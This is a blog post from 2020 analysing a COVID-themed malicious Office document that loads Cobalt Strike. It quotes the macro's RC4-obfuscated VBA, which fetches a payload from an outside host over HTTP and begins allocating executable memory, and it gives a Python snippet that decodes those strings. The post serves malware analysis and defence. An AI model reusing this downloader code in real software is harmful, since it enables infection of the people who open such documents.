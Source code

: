 ```yaml
---
layout: post
title:  "Hiding in the clouds"
date:   2020-03-24 10:31:12 -0600
categories: malware, cobaltstrike
---
```



A covid themed document was mentioned on twitter[[1]] by @ximo_lcg. Checking the Any.Run sandbox detonation[[2]] shows a TLS connection and an execution of rundll so I decided to take a look.

The document is covid themed with references to World Health Organization.


# VBA

The VBA code is pretty simplistic, it has a simple RC4 and unhexlify on the strings:

```
Set objHttp = CreateObject(DecString("ee6f71bd568fa4d9264722c28222c6fa616215f9"))
    strURL = DecString("cb485d806987a5a520513a899a1bfdd74a592f87897b41d4fa92a08aa37478a6a3883a21")
    objHttp.Open "GET", strURL, False

```


So we can decode the strings pretty easily

```
>>> def decode(s):
...   temp = binascii.unhexlify(s)
...   rc4 = ARC4.new('thehint')
...   return rc4.decrypt(temp)

>>> decode('ee6f71bd568fa4d9264722c28222c6fa616215f9')
'MSXML2.ServerXMLHTTP'
>>> decode('cb485d806987a5a520513a899a1bfdd74a592f87897b41d4fa92a08aa37478a6a3883a21')
'https://cdn.javacon.eu/gen_visual.js'

>>> decode('cb485d806987a5a520513a899a1bfdd74a592f87897b41d4fa92a08cab296eb4bc')
'https://cdn.javacon.eu/gen_pa.css'

```

Looking at some more of the VBA code

```
    objHttptwo.setRequestHeader DecString("f64f4c8237fcedef2d41"), _
      DecString("ee53539976d1eba5761b6487d82de2d84d5936dacc403a93aeccd1ccf1275aaea19064697430c54b2384315846187f6a1c9a878e
2ff5218f321654c96ae367c90a72981a64b0b55ebc69b46f4d09")
    objHttptwo.Send ("")
    ''' Select the mode (with or without domain name)
    pass = ToHexDump(objHttptwo.responseText)
    'pass = ToHexDump(objHttptwo.responseText) & access
    'MsgBox ("Full password:" & ToHexDump(objHttptwo.responseText) & access)
    Set objHttptwo = Nothing


'If access = "11252" Then
#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If

```